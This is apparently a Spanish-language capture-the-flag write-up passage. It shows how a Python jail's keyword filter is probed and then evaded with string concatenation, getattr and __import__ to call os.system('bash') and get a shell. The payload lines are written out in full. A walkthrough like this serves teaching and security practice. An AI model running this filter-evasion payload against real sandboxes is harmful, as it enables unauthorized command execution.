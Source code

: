 Probamos a ver que palabras están prohibidas o bloqueadas:

```bash
> import 
+Block: import
> os
Block: os
> 'imp'+'ort'
import
```

Vemos que las palabras `import` y `os` están bloqueadas, pero `'imp'+'ort'` no. Ejecutamos `globals()` para ver variables globales del módulo actual, junto con sus valores. La mayoría de los modulos de python tienen disponible de forma global el módulo `__builtins__`, y como vemos, está disponible. Ejecutamos `globals()['__builtins__']` y vemos que nos deja:

```bash
> globals()
{'__name__': '__main__', '__doc__': None, '__package__': None, '__loader__': <_frozen_importlib_external.SourceFileLoader object at 0x7f4d31e8aed0>, '__spec__': None, '__annotations__': {}, '__builtins__': <module 'builtins' (built-in)>, '__file__': '/usr/bin/jail', '__cached__': None, 'signal': <module 'signal' from '/usr/lib/python3.11/signal.py'>, 'banner': <function banner at 0x7f4d31e304a0>, 'main': <function main at 0x7f4d31c447c0>}
> globals()['__builtins__']
<module 'builtins' (built-in)>
```

Para poder ejecutar un comando de bash en python necesitamos importar el modulo os .system . En la url [https://docs.python.org/3/library/functions.html](https://docs.python.org/3/library/functions.html) vemos que está disponible la la función `__import__` . Como hemos visto antes, la palabra import esta bloqueada, asi que tenemos que partir la palabra y concatenarla con el signo +. Después con la función `getattr(objeto, nombre)` cargamos en el objeto la funcion que le indicamos, en este caso `getattr(globals()['__builtins__'], '__import__’)`. Después solo nos quedaría cargar el módulo `os` con `getattr(globals()['__builtins__'], '__im'+'port__')('o'+'s')`

```python
# https://docs.python.org/3/library/functions.html
> getattr(globals()['__builtins__'], '__im'+'port__')
<built-in function __import__>

# https://docs.python.org/3/library/functions.html#import__
> getattr(globals()['__builtins__'], '__im'+'port__')('o'+'s')
<module 'os' (frozen)>
```

Para terminar solo nos queda ejecutar el comando **bash** para obtener la shell. Para ello primero cargamos `system` con `getattr` y luego `bash`:

```bash
# https://docs.python.org/3/library/os.html
> getattr(getattr(globals()['__builtins__'], '__im'+'port__')('o'+'s'), 'sys'+'tem')('bash')
mash@predictable:~$ hostname
predictable
mash@predictable:~$ 
```
# Escalada de privilegios
